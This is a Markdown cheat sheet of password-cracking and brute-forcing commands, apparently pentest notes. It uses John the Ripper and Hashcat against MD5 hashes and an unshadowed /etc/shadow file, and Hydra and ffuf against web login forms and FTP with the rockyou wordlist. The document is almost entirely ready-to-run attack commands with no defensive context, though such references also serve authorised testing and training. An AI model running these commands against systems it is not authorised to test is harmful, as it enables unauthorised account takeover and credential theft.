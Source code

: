 # Password Cracking

## John The Ripper

### Crack hash

```nix
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```

### Cracking `/etc/shadow`

```nix
unshadow shadow.txt passwd.txt > unshadowed.txt
```

```nix
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

## Hashcat

### Crack Hash

```nix
hashcat -m hashmode_id pw_hash.txt /usr/share/wordlist/rockyou.txt
```

[Hashmode Documentation](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Generate Password using Hashcat Rules

```nix
hashcat --stdout raw_pw.txt -r /usr/share/hashcat/rules/best64.rule > output.txt
```

## Identify Hash Type

```nix
hash-identifier
```

# Brute Forcing

## Hydra

### HTML Form

```nix
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt target.com http-form-post "/auth/login.php:username=^USER^&password=^PASS^:Invalid username/password combination." -o results.txt -vV
```

### FTP

```nix
hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ftp -s 10021 -o results.txt -vV
```

## Ffuf

### Single Wordlist

```nix
ffuf -w wordlist.txt -u <http://target.com/login> -X POST -d "username=admin&password=FUZZ" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```

### Multiple Wordlist

```nix
ffuf -w wordlist.txt:USER,wordlist.txt:PASS -u <http://target.com/login> -X POST -d "username=USER&password=PASS" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```